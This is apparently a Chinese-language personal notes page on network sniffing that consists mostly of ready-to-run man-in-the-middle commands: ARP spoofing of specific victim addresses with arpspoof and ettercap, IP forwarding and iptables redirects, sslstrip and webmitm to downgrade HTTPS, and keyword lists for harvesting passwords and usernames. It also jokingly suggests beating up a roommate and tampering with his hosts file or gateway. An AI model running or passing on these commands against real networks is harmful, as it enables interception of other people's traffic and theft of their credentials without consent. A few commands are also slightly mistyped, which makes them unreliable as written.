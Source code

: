 ```yaml
---
title: 嗅探基本原理
date: 2016-03-29T21:25:45+08:00
update: 2016-01-01
categories: [网络安全]
tags:
---
```


fragrouter -B1
dnsspoof -i ath0 (or whatever network interface you are using)
 webmitm -d
 ettercap -T -M arp:remote /router addy/ /victim addy/
 ssldump -r your.cap -w webmitm.crt  -d > out
########
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp –dport 443 -j REDIRECT
iptables -A FORWARD -j ACCEPT
webmitm -d

ettercap –G
unified
ath0
arp poision
start sniffing

#########
[原文](https://blog.g0tmi1k.com/2009/07/stripping-ssl-sniffing-https/)
kate  /etc/etter.conf
# uncomment redir_command_off in the iptables, linux section
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i wlan0 -t 192.168.1.6 192.168.1.1
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
ettercap -T -q -i wlan0

sslstrip -a -k -f
ettercap -T -q -i wlan0



### Alternative
wireshark

kate  /etc/etter.conf

echo "1" > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000

arpspoof -i eth0 -t 192.168.1.12 192.168.1.1
#ettercap -T -q -i eth0 -M ARP /192.168.1.1/ /192.168.1.12/

ettercap -T -q -i eth0

sslstrip -k -f

##########

password=','pwd=','username=','user=','pass=','email='
网络密码嗅探（Web/FTP/Email）工具 – SniffPass
metasploit下的auxiliary/sniffer/psnuffle
ettercap

## 数据流量重定向

关于数据怎么重定向到你的电脑上面也就是你怎么成为靶机和服务器的中间人，这个问题不是我们今天讨论的重点，但是因为跟本文还是有点关系，我给出几个建议方式吧：

1、ARP攻击
进内网……还用我多说么？永恒的传奇，不老的ARP。
2、DNS劫持
将靶机的DNS劫持到这里来，想做什么就好说了。
3、WIFI钓鱼
拿着个树莓派改装版或者拿着菠萝瞎溜达，哪里人多找哪里。
4、修改hosts文件
把舍友暴打一顿，然后把他的电脑的hosts文件改掉，反正他也不懂。
5、修改默认网关
把舍友暴打一顿，然后把他的电脑的默认网关改成自己的IP，反正他也不懂。
……
### ARP 欺骗工具
ARPspoof
Cain&abel
Ettercap
ARPoison
Dsniff
Parasite

## SSL

https://github.com/droe/sslsplit
